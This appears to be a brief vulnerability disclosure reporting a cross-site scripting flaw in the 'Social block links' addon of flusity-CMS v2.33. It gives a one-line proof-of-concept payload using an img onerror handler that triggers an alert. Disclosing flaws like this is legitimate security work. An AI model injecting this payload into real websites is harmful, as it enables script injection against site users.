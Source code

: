 target:https://github.com/flusity/flusity-CMS
version: v2.33

There is Cross-Site Scripting (XSS)  vulnerability within the 'Addon JD Flusity 'Social block links' .

![1](https://github.com/2111715623/cms/assets/91373141/d3350c23-6b1b-4bf5-908b-a560d2b74ad3)


poc:
```
 "><img src=1 onerror=alert(1)> 
```
successed

![2](https://github.com/2111715623/cms/assets/91373141/c18d5c6b-0044-4ced-9df4-25388687fac5)

